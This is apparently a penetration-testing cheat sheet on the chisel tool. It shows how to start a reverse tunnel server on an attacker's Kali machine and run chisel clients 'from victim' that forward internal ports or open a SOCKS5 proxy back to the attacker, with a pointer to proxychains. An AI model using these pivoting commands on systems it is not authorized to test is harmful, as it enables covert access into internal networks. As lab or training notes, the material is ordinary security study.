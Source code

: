 # chisel
`#on your system, start the chisel server`

```text-plain
chisel server --reverse -p 3000
```

`# connect to the chisel server`  
`chisel client <your-IP>:<port> R:3275:localhost:3275`

```text-plain
./chisel client 10.17.17.11:3000 R:8000:localhost:8000
./chisel client 10.10.14.82:3000 R:5000:localhost:3000
```

Start server listening on 8000:

`./chisel server -p 8000 --reverse`

From victim:

| Command | Notes |
| --- | --- |
| `chisel client 10.10.14.3:8000 R:80:127.0.0.1:80` | Listen on Kali 80, forward to localhost port 80 on client |
| `chisel client 10.10.14.3:8000 R:4444:10.10.10.240:80` | Listen on Kali 4444, forward to 10.10.10.240 port 80 |
| `chisel client 10.10.14.3:8000 R:socks` | Create SOCKS5 listener on 1080 on Kali, proxy through client |

Now that we have a SOCKs server set up, we need to interpret and manage these connections. This is where proxychains come in. Proxychains allows us to connect to the SOCKs server and route traffic through the proxy in the command line. To add the SOCKs server to proxychains, you will need to edit `/etc/proxychains.conf`. You can see an example configuration below.

![](chisel/PLDdyI8.png)